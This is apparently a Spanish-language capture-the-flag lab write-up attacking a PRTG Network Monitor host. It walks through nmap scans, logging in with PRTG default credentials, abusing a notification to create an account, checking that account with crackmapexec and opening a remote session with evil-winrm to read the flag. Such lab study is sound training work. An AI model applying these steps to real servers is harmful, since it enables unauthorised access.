




# Laboratorio: PRTG Monitor 🤵

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    
</p>

---

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

<p align="center">
    
</p>

---
3. Tratamos de loguearnos con las credenciales por defecto `prtgadmin:Password123`
---
4. Nos dirigimos a `Notifications`

<p align="center">
    
</p>

Y creamos una nueva notificación

<p align="center">
    
</p>

---

5. Colocamos lo siguiente al crear una nueva notificación

<p align="center">
    
</p>

---

6. Con **crackmapexec** validaremos las credenciales
* `crackmapexec smb 10.129.219.229 -u estxestx1 -p EsTX123!`

```
SMB         10.129.219.229  445    APP03            [*] Windows 10.0 Build 17763 x64 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.219.229  445    APP03            [+] APP03\estxestx1:EsTX123! (Pwn3d!)
```

---

7. Usamos `evil-winrm` para loguearnos en el sistema y leeremos la **flag** 🏴
* `evil-winrm -i 10.129.219.229 -u [Usuario] -p [Password]`

```cmd
*Evil-WinRM* PS C:\Users\Administrator\Desktop>type flag.txt
WhOs3_m0nit0ring_wH0?
```